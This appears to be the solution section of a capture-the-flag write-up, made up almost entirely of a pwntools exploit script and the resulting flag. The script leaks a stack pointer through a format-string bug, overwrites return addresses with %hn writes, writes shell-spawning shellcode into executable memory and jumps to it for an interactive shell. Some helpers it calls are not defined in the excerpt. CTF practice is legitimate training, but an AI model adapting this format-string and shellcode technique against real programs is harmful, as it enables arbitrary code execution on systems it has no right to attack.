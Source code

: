 ```py
def leak_ptr(addr):
    io.recvuntil(b'Enter your name: \n')
    io.send(pack(addr))

    io.recvuntil(b'please put your function shellcode here: \n')
    io.send(b'90')

    io.recvuntil(b'pleas give us feedback about this course: ')
    ret_write = (exe.sym['main'] + 120) & 0xffff
    fmt = f'%{ret_write}c%16$hn||%10$s||\0'
    io.send(fmt.encode())
    io.recvuntil(b'||')
    return unpack(io.recvuntil(b'||', drop=True).ljust(8, b'\x00'))

def jump_to_shellcode():
    # we assume that rwx is written to rsp + 8
    io.recvuntil(b'Enter your name: \n')
    io.send(pack(0))

    io.recvuntil(b'please put your function shellcode here: \n')
    io.send(b'90')

    io.recvuntil(b'pleas give us feedback about this course: ')
    # pop rbp ; ret ;
    ret_write = (exe.sym['main'] - 2) & 0xffff
    fmt = f'%{ret_write}c%16$hn\0'
    io.send(fmt.encode())

io = start()

setup(io)

# lowest 12 bits expected to be null, need to leak at offset
rwx = leak_ptr(rsp + 0x8 + 1) << 8
info(f'rwx: {hex(rwx)}')

shellcode = asm(shellcraft.sh())

# start at offset 1 because of the NOP
i = 1
for b in shellcode:
    write_byte(rwx + i, b)
    i += 1

jump_to_shellcode()

io.interactive()
```

## Flag

```
maple{r34d_5h3llc0d3_u51n6_5h3llc0d3}
```
